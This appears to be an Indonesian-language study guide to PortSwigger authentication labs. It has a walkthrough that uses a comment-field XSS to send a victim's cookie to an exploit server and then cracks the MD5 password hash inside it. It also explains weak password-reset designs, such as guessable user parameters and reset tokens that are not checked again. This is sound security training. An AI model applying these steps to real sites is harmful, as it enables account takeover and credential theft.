



















##### Tutorial

1. Login dengan `wiener:peter` dan catat cookie `stay-logged-in` (base64 dari `wiener:md5(password)`).
2. Cari XSS di kolom komentar blog; post payload yang mengekfiltrasi `document.cookie` ke exploit server.
3. Kirim payload ke korban (blog publik). Baca cookie curian dari access log exploit server.
4. Decode cookie `stay-logged-in` untuk dapat hash password Carlos, pecahkan MD5 (mis. CrackStation), lalu login sebagai `carlos` dan hapus akun dari **My account**.

##### Reference

<details>
<summary>13. Authentication Vulnerabilities - Lab #10 Offline password cracking | Short Version — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=RFt3YbGDkQ4
Purpose: Di video ini, kami membahas Lab #10 pada modul Authentication dari Web Security Academy. Lab ini menyimpan hash kata sandi pengguna dalam cookie. Lab ini juga mengandung kerentanan XSS pada fungsi komentar. Untuk menyelesaikan lab, kami dapatkan cookie stay-logged-in Carlos dan pakai untuk memecahkan kata sandinya. Lalu, kami login sebagai carlos dan hapus akunnya dari halaman "My account".

</details>

</details>

### Mereset kata sandi pengguna

Dalam praktik, sebagian pengguna akan lupa kata sandi, jadi umum ada cara untuk meresetnya. Karena autentikasi berbasis kata sandi biasa jelas tidak mungkin dalam skenario ini, situs harus mengandalkan metode alternatif untuk memastikan pengguna asli yang mereset kata sandinya sendiri. Karena itu, fungsi reset kata sandi berbahaya dan perlu diimplementasikan dengan aman.

Ada beberapa cara berbeda fitur ini umum diimplementasikan, dengan tingkat kerentanan yang bervariasi.

### Mengirim kata sandi melalui email

Wajar bila dikatakan bahwa mengirim kata sandi pengguna saat ini tidaklah mungkin jika situs menangani kata sandi dengan aman. Sebagai gantinya, sebagian situs menghasilkan kata sandi baru dan mengirimkannya ke pengguna melalui email.

Secara umum, mengirim kata sandi persisten melalui saluran tidak aman harus dihindari. Dalam kasus ini, keamanan mengandalkan kata sandi yang dihasilkan kedaluwarsa setelah periode sangat singkat, atau pengguna mengganti kata sandinya lagi segera. Jika tidak, pendekatan ini sangat rentan terhadap serangan man-in-the-middle.

Email juga umumnya tidak dianggap aman karena kotak masuk bersifat persisten dan tidak dirancang untuk penyimpanan aman informasi rahasia. Banyak pengguna juga otomatis menyinkronkan kotak masuk mereka antar perangkat melalui saluran tidak aman.

### Mereset kata sandi memakai URL

Metode yang lebih kuat untuk mereset kata sandi adalah mengirim URL unik ke pengguna yang membawa mereka ke halaman reset kata sandi. Implementasi metode ini yang kurang aman memakai URL dengan parameter yang mudah ditebak untuk mengidentifikasi akun mana yang direset, misalnya:

```
http://vulnerable-website.com/reset-password?user=victim-user
```

Dalam contoh ini, penyerang bisa mengubah parameter `user` untuk merujuk ke username mana pun yang telah mereka identifikasi. Mereka lalu akan dibawa langsung ke halaman di mana mereka berpotensi menetapkan kata sandi baru untuk pengguna sembarang tersebut.

### Mereset kata sandi memakai URL - Lanjutan

Implementasi proses yang lebih baik adalah menghasilkan token entropi tinggi yang sulit ditebak dan membuat URL reset berdasarkan token itu. Dalam skenario terbaik, URL ini tidak memberi petunjuk tentang pengguna mana yang kata sandinya direset.

```
http://vulnerable-website.com/reset-password?token=a0ba0d1cb3b63d13822572fcff1a241895d893f659164d4cc550b421ebdd48a8
```

Saat pengguna mengunjungi URL ini, sistem harus memeriksa apakah token ada di back-end dan, jika ada, pengguna mana yang kata sandinya supaya direset. Token ini harus kedaluwarsa setelah periode singkat dan dihancurkan segera setelah kata sandi direset.

Namun, sebagian situs gagal memvalidasi ulang token saat formulir reset dikirim. Dalam kasus ini, penyerang cukup mengunjungi formulir reset dari akunnya sendiri, menghapus token, dan memanfaatkan halaman ini untuk mereset kata sandi pengguna sembarang.

##### Lab: Password reset broken logic

Fungsi reset kata sandi lab ini rentan. Untuk menyelesaikan lab, reset kata sandi Carlos lalu login ke akunnya.

<details>
<summary>Lab details, screenshots & walkthrough 0.10</summary>

- Kredensialmu: `wiener:peter`
- Username korban: `carlos`

**Screenshots:**















